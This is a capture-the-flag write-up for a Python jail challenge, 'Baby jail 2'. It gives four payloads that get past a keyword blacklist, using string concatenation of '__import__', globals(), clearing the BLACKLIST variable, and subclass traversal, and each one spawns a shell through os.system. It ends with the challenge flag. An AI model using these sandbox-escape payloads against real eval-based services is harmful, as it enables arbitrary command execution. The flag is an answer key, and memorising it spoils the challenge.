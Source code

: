 # Baby jail 2
## Write-up 

The setup of the second challenge is similar to the first one except that in this we have some filters, so the pyaload used in the challenge number won't work. We will have to find a bypass for these filters.

> **note** : for this challenge, there are multiple solutions.

### Solution 1

If we check what builtins are available using `__builtins__.__dict__` we'll find out that `__import__` is present but we can't write it directly since the program is checking if the word `import` is present in the input. That's why we will divide it into two parts.

```python
__builtins__.__dict__['__imp'+'ort__']
``` 

Now we will import the os module and get a shell.

```python
 __builtins__.__dict__['__imp'+'ort__']('os').system('s'+'h')
```

### Solution 2 

This is the general format of solution 1.

```python
globals()['__builtins__'].__dict__['__imp'+'ort__']('os').system('s'+'h')
```

### Solution 3

If we run the function `globals()` we can see the variable `BLACKLIST` which contains all the blacklisted characters, and since we have access to global variables, we can simply clear them.

```python
BLACKLIST.clear()
__import__('os').system('sh')

```

### Solution 4 

`Object --> os._wrap_close` 
```python
object.__subclasses__()[-4].__init__.__globals__['sys'].modules['os'].system('s'+'h')

```

## Flag

`shellmates{Y0u_ar3_st4rting_t0_g3t_g00d_with_LAVE}`
